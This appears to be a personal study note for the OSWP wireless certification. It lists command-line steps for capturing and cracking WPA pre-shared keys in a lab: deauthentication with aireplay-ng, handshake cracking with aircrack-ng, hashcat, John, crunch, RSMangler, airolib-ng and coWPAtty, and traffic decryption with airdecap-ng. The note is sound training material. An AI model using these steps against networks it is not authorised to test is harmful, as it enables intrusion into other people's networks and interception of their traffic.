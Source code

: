 ```yaml
---
{"dg-publish":true,"permalink":"/OSWP/4. PSK Cracking/"}
---
```


------------
### Crack walkthrough:
1. Sniff nearby APs:
```
sudo airodump-ng wlan0mon
```
2. Tune dump with channel and SSIDs:
```
sudo airodump-ng -c 3 -w wpa --essid wifu --bssid 34:08:04:09:3D:38 wlan0mon
```
3. Start deauth:
```
sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon
```
- If not captures handshake try without "-c"
4. Crack handshake:
```
aircrack-ng -w /usr/share/john/password.lst -e wifu -b 34:08:04:09:3D:38 wpa-01.cap
```
5. Decrypt traffic:
```
airdecap-ng -b 34:08:04:09:3D:38 -e wifu -p 12345678 wpa-01.cap
```

---
### John cracking:
```
john --wordlist=/usr/share/john/password.lst --rules --stdout | aircrack-ng -e wifu -w - ~/wpa-01.cap
```

----------------
### Crunch:
- Generate password lists
- Usage:
```
crunch <minlength> <maxlength> <characters> -t <pattern> -p <words>
```
- Example:
```
crunch 11 11 0123456789 -t password@@@
-
Crunch will now generate the following number of lines: 1000
password000
password001
password002
password003
```
- Example 2:
```
crunch 5 5 -t ddd% | aircrack-ng -e wifu crunch-01.cap -w -
```

--------
### RSMangler
- Ruby script for modifying wordlists in all ways
- Usage:
```
rsmangler --file wordlist.txt --min 12 --max 13 --output mangled.txt
```
Use with aircrack:
```
rsmangler --file wordlist.txt --min 12 --max 13 | aircrack-ng -e wifu rsmangler-01.cap -w -
```

-----
### Hashcat
- List cracking devices:
```
hashcat -I
```
- Run benchmark for mode:
```
hashcat -b -m <mode>
```
- Specify device:
```
hashcat -d <device-nr>
```
- Specify device type (CPU, GPU, FPGSA, DSP etc.):
```
hashcat -D <device-type>
```
- Convert .cap to hashcat-compatible:
```
/usr/lib/hashcat-utils/cap2hccapx.bin wifu-01.cap output.hccapx  
```
- Crack the hash:
```
hashcat -m 2500 output.hccapx /usr/share/john/password.lst  
```

------------
### Airolib-ng
- Tool to pre-generate PMKs which lets aircrack-ng check more than 50000 hashes/second
- Usage:
1. Create file containing ESSID of target AP:
```
echo wifu > essid.txt
```
2. Import ESSID into database:
```
airolib-ng <db-name>.sqlite --import essid essid.txt
```
3. List info about DB:
```
airolib-ng <db-name>.sqlite --stats
```
4. Import passwords to DB:
```
airolib-ng <db-name>.sqlite --import passwd /usr/share/john/password.lst
```
5. Process DB and generate PMKs:
```
airolib-ng <db-name>.sqlite --batch
```
6. Initiate crack:
```
aircrack-ng -r <db-name>.sqlite wpa1-01.cap
```

---------
### coWPAtty:
- Similar to airolib-ng, creates rainbow tables for ESSIDs
- Usage:
1. Generate table:
```
genpmk -f /usr/share/john/password.lst -d <outfile> -s <essid>
```
2. Crack with coWPAtty:
```
cowpatty -r wpajohn-01.cap -d <outfile> -s wifu
```

